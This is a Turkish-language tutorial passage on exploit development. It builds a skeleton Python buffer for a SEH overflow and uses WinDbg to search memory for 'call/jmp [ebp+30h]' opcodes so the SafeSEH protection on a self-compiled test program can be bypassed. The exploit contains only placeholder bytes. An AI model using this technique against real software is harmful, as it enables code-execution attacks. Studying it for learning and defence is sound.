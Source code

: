 Şimdi, ilk olarak yine SEH overflow için gereken taslak python exploitimizi görelim.

	cokertkaarsim  = "A" * 528                 
	cokertkaarsim += "BBBB"        #Next SEH
	cokertkaarsim += "CCCC"        #SE Handler
	cokertkaarsim += "D" * 400

Önceki exploitin gövdesinin ilk hali bu. Şimdi bunun üzerinden yürüyeceğiz. Bu iki alana yazmak istediğimiz instructionları bulmamız gerek. Derlediğimiz programda **SafeSEH** koruması açık, ayrıca diğer modullerde de açık. Bu demektir ki bu modüllerin bulunduğu adresleri kullanamayız. O halde hafızada arama yapacağız demektir. Bunu isterseniz Immunity debuggerda bulunan **pvefindaddr** yahut **mona** eklentisiyle ya da Windbg ile yapabilirsiniz. Ben Windbg kullanmayı daha eğlenceli buluyorum. 

Programı Windbg ile açıp crashi oluşturduktan sonra kullanabileceğimiz aramaya başlayalım. Bu yazıda `ebp+30`'u kullanıyoruz. Öncelikle bunun opcodeunu bulalım.

	0:000> a
	  5353106f call dword ptr[ebp+0x30]
	    call dword ptr[ebp+0x30]
	  53531072 jmp dword ptr[ebp+0x30]
	    jmp dword ptr[ebp+0x30]


	0:000> u 5353106f
	image53530000+0x106f:
	  5353106f ff5530          call    dword ptr [ebp+30h]
	  53531072 ff6530          jmp     dword ptr [ebp+30h]

Şimdi, opcode değerlerimizi bulduk, `ff 55 30` ve `ff 65 30`. Akabinde `s` komutunu kullanarak hafızada arama yapalım.

	0:000> s 0000000 77fffff ff 55 30
	  00270b0b  ff 55 30 00 00 00 00 9e-ff 57 30 00 00 00 00 9e  .U0......W0.....
	0:000> u 00270b0b
	  00270b0b ff5530          call    dword ptr [ebp+30h]
	  00270b0e 0000            add     byte ptr [eax],al
	  00270b10 0000            add     byte ptr [eax],al

**00270b0b** adresinde aradığımız instruction var. Bu adresin nereye ait olduğunu öğrenmek için Immunity yahut Olly debuggerda `ALT+M` kısayolu ile hafızaya bakabilirsiniz. Örneğin:

![](/files/hafizayabakti.png)

Ayrıca, örneğin herhangi bir uzukluktaki tüm değerleri bulmak için opcode içerisindeki 30 olmadan arama yapabilirsiniz. Yine bir örnek vermek gerekirse:

	0:000> s 0000000 77fffff ff 55
      0014c366  ff 55 ca 3a c8 d1 35 6a-e2 03 87 b2 78 f3 48 0b  .U.:..5j....x.H.
      00267643  ff 55 ff 61 ff 54 ff 57-ff dc ff 58 ff cc ff f3  .U.a.T.W...X....
      00270b0b  ff 55 30 00 00 00 00 9e-ff 57 30 00 00 00 00 9e  .U0......W0.....
	0:000> u 00267643
	  00267643 ff55ff          call    dword ptr [ebp-1]
    0:000> u  0014c366
      0014c366 ff55ca          call    dword ptr [ebp-36h]
